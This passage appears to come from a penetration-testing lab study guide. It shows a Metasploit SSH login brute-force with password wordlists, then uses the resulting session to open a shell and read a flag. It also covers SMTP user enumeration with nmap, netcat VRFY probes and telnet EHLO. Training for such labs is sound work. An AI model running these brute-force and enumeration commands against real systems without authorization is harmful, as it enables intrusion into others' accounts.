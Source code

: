 - **auxiliary/scanner/ssh/ssh_login**

```shell
use auxiliary/scanner/ssh/ssh_login
set RHOSTS
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
run
# Take note of the credentials found.

# List the active senssions
sessions

# The command sessions -i 1 in Metasploit is used to interact with an active session that has been established through an exploit or post-exploitation activity.
sessions -i 1 # sessions 1
/bin/bash -i
cd /
cat flag
```

<br>

### 5.7. SMTP Enumeration

An **SMTP** (Simple Mail Transfer Protocol) server is a mail server that sends and receives emails using the SMTP protocol. It's responsible for sending, receiving, and relaying outgoing mail between email senders and recipients.

**Tools:** Nmap, telnet, nc, Metasploit Framework

1. **What is the SMTP server name and banner.**

```shell
nmap -sV -O -sC -v -p 25 -oX <file_name> <target_IP>
```

2. **Connect to SMTP service using netcat and retrieve the hostname of the server (domain name).**
3. **Does user “admin” or "commander" exist on the server machine? Connect to SMTP service using netcat and check manually.**

```shell
nc <target_IP> 25
VRFY admin@openmailbox.xyz
VRFY commander@openmailbox.xyz
```

4. **What commands can be used to check the supported commands/capabilities? Connect to SMTP service using telnet and check.**

```shell
telnet <target_IP> 25
HELO attacker.xyz
EHLO attacker.xyz
```

5. **How many of the common usernames present in the dictionary exist on the server. Use smtp-user-enum tool for this task.**
